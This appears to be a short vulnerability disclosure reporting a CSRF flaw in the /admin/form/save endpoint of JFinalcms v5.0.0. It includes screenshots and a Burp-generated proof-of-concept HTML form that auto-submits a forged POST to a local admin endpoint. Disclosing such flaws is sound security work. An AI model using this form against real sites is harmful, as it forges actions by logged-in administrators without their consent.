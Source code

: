 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/form/save

![图片](https://github.com/cui2shark/cms/assets/52313275/a43b5c05-275f-40b6-9841-c03e65d35aea)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/8027151d-ce94-4f83-91fa-60c51aa0a00f)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/form/save" method="POST">
      <input type="hidden" name="name" value="cs" />
      <input type="hidden" name="tableName" value="123" />
      <input type="hidden" name="code" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

